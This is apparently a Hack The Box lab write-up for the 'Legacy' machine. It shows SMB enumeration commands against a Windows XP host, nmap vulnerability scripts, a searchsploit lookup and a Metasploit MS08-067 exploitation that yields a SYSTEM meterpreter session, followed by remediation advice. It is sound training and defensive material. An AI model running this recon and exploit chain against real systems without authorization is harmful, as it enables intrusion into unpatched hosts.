







Legacy
Legacy is a throwback, and that is the whole point. A quick scan shows an unpatched Windows XP
host speaking only SMBv1. We walk our whole SMB enumeration toolkit against it (and hit an
smbmap bug worth its own write-up), confirm null sessions and an ancient dialect, then let nmap's vuln
scripts do the talking: the box is wide open to MS08-067 (CVE-2008-4250). One Metasploit
module later we have a meterpreter session that is already NT AUTHORITY\SYSTEM, so there
is no privilege escalation to do. Both flags are a short walk away.
01Enumeration
Let's start with an nmap scan of our target.
$ nmap -sCV -p- -T4 --min-rate 5000 10.129.227.181
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows XP microsoft-ds
Host script results:
| smb-os-discovery:
| OS: Windows XP (Windows 2000 LAN Manager)
| Computer name: legacy
| Workgroup: HTB
| smb-security-mode:
| account_used: guest
|_ message_signing: disabled (dangerous, but default)It identified 3 ports: 135, 139, and 445. The machine is
also called LEGACY, and from our scan we can see that smb-os-discovery already pegged it as a
flavor of Windows XP. Out of these ports, the only one we can really footprint is
445, so let's begin there. We have a lot of tools we can use for this, and I like to reach
for several of them to compare the output and keep my mind sharp with a variety.
02Beginning enumeration of 445 (SMB)
Using enum4linux-ng
What it does: a one-stop SMB/RPC enumeration wrapper. It automatically probes LDAP, SMB, and NetBIOS, checks for null and guest sessions, and tries to pull OS info, shares, users, and the workgroup/domain. Great for a fast overview before you reach for the more surgical tools.
$ enum4linux-ng 10.129.227.181
[+] SMB is accessible on 445/tcp
[+] SMB over NetBIOS is accessible on 139/tcp
[+] Got domain/workgroup name: HTB
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for guest access
[-] Could not establish guest session: STATUS_LOGON_FAILURE
[+] After merging OS information we have the following result:
OS: Windows 5.1 (Native LAN manager: Windows 2000 LAN Manager)Two things jump out. The workgroup is HTB, and the server happily allows a null session (empty username and password) even though guest is refused. "Windows 5.1" is just the internal version number for Windows XP, confirming the OS a second way.
Using rpcclient
What it does: a manual MS-RPC client. Over a null or authenticated session it enumerates
users, groups, and shares one query at a time (enumdomusers, querydominfo). It is the
surgical counterpart to enum4linux's broad sweep.
$ rpcclient -U "" 10.129.227.181
Password for [WORKGROUP\]:
Cannot connect to server. Error was NT_STATUS_LOGON_FAILUREHere rpcclient refuses our null session. Notice this seems to disagree with what enum4linux just told us,
and that is exactly why I run more than one tool. NT_STATUS_LOGON_FAILURE means the login was
rejected, not that the host is unreachable. (For a clean null bind you want rpcclient -U "" -N so
it doesn't stop to prompt.) We will see in a moment that a null session really is allowed, so don't take a
single tool's "no" as the final word.
Using smbmap
What it does: a share enumerator that shows read/write permissions per share at a glance, plus remote command execution and up/download. Normally my go-to first pass.
Running the tool actually surfaced a bug, and the authentication just keeps going and going. I use this tool a lot, so I was a bit disappointed to see it broken like this.
Anyways, this turned into its own little side quest. I pulled smbmap from ShawnDEvans' official repo, found the root cause, and sent in a fix. You can read the write-up here: smbmap: thread-based pool fix for Python 3.14.
Ahem... moving on:
Using netexec (nxc)
What it does: the successor to CrackMapExec. Very good for enumeration and can spider/pull files, validate creds across a whole subnet, and spray passwords. It also prints a tidy one-line fingerprint of the host.
$ nxc smb 10.129.227.181 --shares
SMB 10.129.227.181 445 LEGACY [*] Windows 5.1 x32 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True) (Null Auth:True)
SMB 10.129.227.181 445 LEGACY [-] Error enumerating shares: ... SMB SessionError: unknown error code: 0x5bThat one line is a goldmine: SMBv1: True, signing: False, and best of all Null Auth: True. Since it confirms null auth, let's try a plain null session through nxc:
$ nxc smb 10.129.227.181 -u '' -p ''
SMB 10.129.227.181 445 LEGACY [*] Windows 5.1 x32 (SMBv1:True) (Null Auth:True)
SMB 10.129.227.181 445 LEGACY [+] legacy\:It authenticates and we see a legacy share, so let's try connecting to it with our next tool.
Using smbclient
$ smbclient -L //10.129.227.181 -N
session setup failed: NT_STATUS_INVALID_PARAMETERModern Kali ships a recent Samba, and recent smbclient dropped SMB1 (NT1) from its
default dialects and sets its minimum protocol to SMB2 or higher. The target offers only SMB1. When
the client and server can't agree on a dialect, the session setup dies with INVALID_PARAMETER. The
fix in the message is subtle: "invalid parameter" during session setup almost always means
negotiation, not your arguments. The SMB dialect is being rejected.
This was a similar result to our rpcclient tool. We can see the shares and confirm it's running an old SMBv1, but we can't actually connect to anything. And honestly, that brings us to a good lesson: why keep reaching for the next tool when the information our first ones gave us is already enough? We know it's an ancient, unpatched Windows. Let's point that knowledge somewhere useful.
03Continuing enumeration with nmap
nmap can check for known SMB vulnerabilities directly with its vuln scripts:
$ nmap -p445 --script "smb-vuln-*" 10.129.227.181
| smb-vuln-ms17-010:
| VULNERABLE: Remote Code Execution in Microsoft SMBv1 servers (ms17-010)
| IDs: CVE:CVE-2017-0143 Risk factor: HIGH
| smb-vuln-ms08-067:
| VULNERABLE: Microsoft Windows system vulnerable to remote code execution (MS08-067)
| IDs: CVE:CVE-2008-4250
| ...allows remote attackers to execute arbitrary code via a crafted RPC
| request that triggers the overflow during path canonicalization.
Okay, now we're getting somewhere. The box is vulnerable to a couple of CVEs. For our use case, CVE-2008-4250 (MS08-067) is the eye-catching one thanks to the clean path to RCE.
04Vulnerability assessment
With a named CVE in hand, searchsploit is a quick way to see what payloads exist:
$ searchsploit ms08-067
Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067) | windows/remote/40279.py
Microsoft Windows Server - Service Relative Path Stack Corruption (Metasploit)| windows/remote/16362.rb
Microsoft Windows Server 2000/2003 - Code Execution (MS08-067) | windows/remote/7132.pyThere are standalone Python PoCs, but notice the Metasploit module in the list. searchsploit is a quick way
for us to see what we can drive straight from msfconsole, so let's use that.
05Foothold - exploiting MS08-067
Firing up msfconsole, we load the MS08-067 module and choose target 1 for automatic
targeting (if it doesn't take, we can specify the exact OS or the closest fit). We set our RHOST
(the target) and LHOST (us), and check the payload, which is a reverse TCP shell. Then we run
it.

exploit/windows/smb/ms08_067_netapi (rank "great"), with targets from Windows 2000 up through XP SP3. We take target 1, Automatic Targeting.
show options: we point RHOSTS at the target and set LHOST to us, keeping the default windows/meterpreter/reverse_tcp payload.
run the module fingerprints the box as Windows XP SP3 English, triggers the overflow, and opens Meterpreter session 1. A quick shell drops us into a Windows XP prompt.And we got a meterpreter session!
06Privilege escalation - oh, we're already SYSTEM
This is the fun part. Normally this is where the real work of privilege escalation begins, where we orient ourselves, enumerate our privileges, and claw our way up from a low user to admin. But not here.
A quick check of who we are:

getuid confirms it: NT AUTHORITY\SYSTEM. The foothold and the highest privilege on the box are the same step.We're already NT AUTHORITY\SYSTEM, the highest-privilege account on Windows. Here is why that
happens with no extra effort: MS08-067 is a flaw in the Windows Server service, and that
service runs as SYSTEM. When our crafted RPC request triggers code execution inside that service, our
code inherits its token. So the same bug that got us a foothold also is our privilege escalation. The
foothold and the crown are the same step.
From here we just saunter over to the user and Administrator desktops and read off our flags. Remember XP
keeps profiles under C:\Documents and Settings\, not the modern C:\Users\:
C:\> type "C:\Documents and Settings\john\Desktop\user.txt" # [flag omitted]
C:\> type "C:\Documents and Settings\Administrator\Desktop\root.txt" # [flag omitted]
C:\Documents and Settings sit the Administrator and john profiles, the XP-era home of our two flags.
user.txt off john's Desktop (value redacted). root.txt comes off the Administrator Desktop the same way. Box owned.Both flags in hand. Box owned.
07Root cause & remediation
Legacy is almost a museum piece, so the fixes are less "apply this patch" and more "this host should not exist as-is." Still, let's break it down honestly:
| Unsupported, end-of-life OS Windows XP |
This is the root of everything else. XP stopped getting security updates years ago, so it will never be patched against the bugs below. The real fix is to decommission it, or if some business reason truly demands it, isolate it on a segmented network with no inbound access and treat it as already compromised. |
| SMB RCE (MS08-067) CVE-2008-4250 |
A pre-auth overflow in the Server service that hands over SYSTEM. On a supported OS you would simply apply the MS08-067 update (and MS17-010 while you are at it). Here, the patch doesn't exist for the platform, which loops us right back to retiring the host. |
| SMBv1 enabled | SMBv1 is obsolete and carries a stack of wormable exploits. Disable it everywhere it is not strictly required, and prefer SMBv2/3. On a modern fleet this is a single Group Policy or PowerShell change. |
| Anonymous null sessions | The host let us authenticate with empty credentials and enumerate it before we had any access. Restrict anonymous access (RestrictAnonymous / RestrictNullSessAccess) and disable the guest account so recon isn't free. |
| SMB signing disabled | Signing was off ("dangerous, but default" for this era), which opens the door to relay attacks. Enforce SMB signing so sessions can't be tampered with or relayed. |
08Takeaways
Legacy is an easy box, but it teaches a lesson I keep relearning: the enumeration wall is the clue. I spent a good while poking at smbclient and rpcclient trying to browse a share, and the box kept telling me "no" in five different ways. Eventually it clicked that the "no" was the whole message. An SMBv1-only, null-session Windows XP host isn't a puzzle to brute your way into, it's a flashing sign that says "I am old and I have known, wormable holes." The moment a version banner screams that, the move is to stop grinding tools and run a vuln scan.
The other takeaway is about privilege. We landed as SYSTEM in a single step, and it would be easy to shrug that off as "the exploit just worked." But understanding why is the real lesson: the vulnerable service ran as SYSTEM, so our code did too. Knowing what account a service runs as tells you exactly how far a bug in it can take you. Short box, but a clean reminder to read what the target is handing you and to tie severity to what a flaw actually grants. Fun little trip back to 2008.